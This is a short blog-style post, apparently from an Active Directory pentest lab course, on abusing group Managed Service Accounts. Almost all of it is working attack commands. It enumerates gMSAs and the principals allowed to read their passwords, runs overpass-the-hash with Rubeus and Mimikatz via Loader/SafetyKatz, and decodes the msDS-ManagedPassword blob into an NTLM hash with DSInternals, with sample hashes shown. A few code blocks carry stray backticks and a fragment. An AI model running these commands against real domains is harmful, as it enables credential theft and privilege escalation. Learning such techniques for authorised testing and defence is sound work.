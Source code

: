 ```yaml
---
layout: post
date: 26/11/2022
author: Aswin Gopalakrishnan
title:  Group Managed Service Accounts (gMSA) Abuse
---
```


A group Managed Service Account (gMSA) provides automatic password management, SPN management, and delegated administration for service accounts across multiple servers.

## Enumerate gMSAs and User

A gMSA has objectclass `msDS-GroupManagedServiceAccount`. This can be used to find gMSA accounts.

1.Find gMSAs in the domain. 
```bash
Get-ADServiceAccount -Filter *
Get-DomainObject -LDAPFilter '(objectClass=msDS-GroupManagedServiceAccount)'
```
2.Find the users/principals who have permissions to read the password. In this case, to read gMSA password of `jumpone` service account.
```bash
Get-ADServiceAccount -Identity jumpone -Properties * | select PrincipalsAllowedToRetrieveManagedPassword`
``` 

## Over Pass-the-Hash

1. Using Rubeus
```bash
Rubeus.exe asktgt /user:provisioningsvc /aes256:a573a68973bfe9cbfb8037347397d6ad1aae87673c4f5b4979b57c0b745aee2a /domain:us.techcorp.local /createnetonly:C:\Windows\System32\cmd.exe /show
```

2. Using Loader and Mimikatz
```bash
.\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe "Sekurlsa::pth /user:provisioningsvc /domain:us.techcorp.local /aes256:a573a68973bfe9cbfb8037347397d6ad1aae87673c4f5b4979b57c0b745aee2a /run:cmd.exe" "exit"`
- `sekurlsa::opassth
```

3. Fetch Password Blob
```bash
$Passwordblob = (Get-ADServiceAccount -Identity jumpone -Properties msDS-ManagedPassword).'msDS-ManagedPassword'
Import-Module C:\AD\Tools\DSInternals_v4.7\DSInternals\DSInternals.psd1
$decodedpwd = ConvertFrom-ADManagedPasswordBlob $Passwordblob
ConvertTo-NTHash -Password $decodedpwd.SecureCurrentPassword`
```
The attribute `msDS-ManagedPassword` stores the password blob in binary form of `MSDS-MANAGEDPASSWORD_BLOB`. Once we have compromised a principal that can read the blob, use ADModule to read and DSInternals to compute NTLM hash.

4. Pass-the-hash and get priveleges of gMSA
```bash
sekurlsa::pth /user:jumpone /domain:us.techcorp.local /ntlm:0a02c684cc0fa1744195edd1aec43078
```
